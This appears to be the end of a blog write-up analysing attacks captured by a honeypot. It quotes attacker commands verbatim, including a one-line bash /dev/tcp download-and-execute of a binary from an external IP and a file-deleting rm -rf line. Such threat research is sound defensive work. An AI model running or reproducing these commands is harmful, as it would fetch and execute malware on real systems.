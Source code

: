 ```sh
rm -rf "$CURR"/redtail.*
```

### Try 2

An other try to gain persistence was made to execute something on the honeypot. The command first connects to `8[.]217[.]250[.]82`, which is not the IP the client connected from `120[.]26[.]234[.]51`, so likely another part of the attackers infrastructure. The script tries to download the file `TZUk7gFTT0` and tries to execute it. The execution is done with the base64 encoded arguments of binary data. Sadly I do not have this sample and could not get it by trying to connect to the IP address.

```terminal
nohup bash -c "exec 6<>/dev/tcp/8.217.250.82/60148 && echo -n 'GET /linux' >&6 && cat 0<&6 > /tmp/TZUk7gFTT0 && chmod +x /tmp/TZUk7gFTT0 && /tmp/TZUk7gFTT0 nd8HZcu76DTtu8NvBtHu6sUAZ8Ol7iDoo8p5B87l8s4BZNyh4TrvpcNjBN/k8s0HYNyn7DD3rcBtAM/t6McWZsCl9zLvu8BkAtHp7cUAZ8Ol6KEXlb74dNE3COEK6aPofXZ5" &
```

I was not able to download the file, although the server is still up at the time of writing.

### Further Notes

The interesting part is that there were multiple IPs which gained access to my honeypot but did not execute anything. I can rule out that the attackers stopped attacking the honeypot due to the output of the `uname` command, so likely they only target specific servers and devices.

## Conclusion

A honeypot can provide really nice data about threat actors on the internet and their agenda.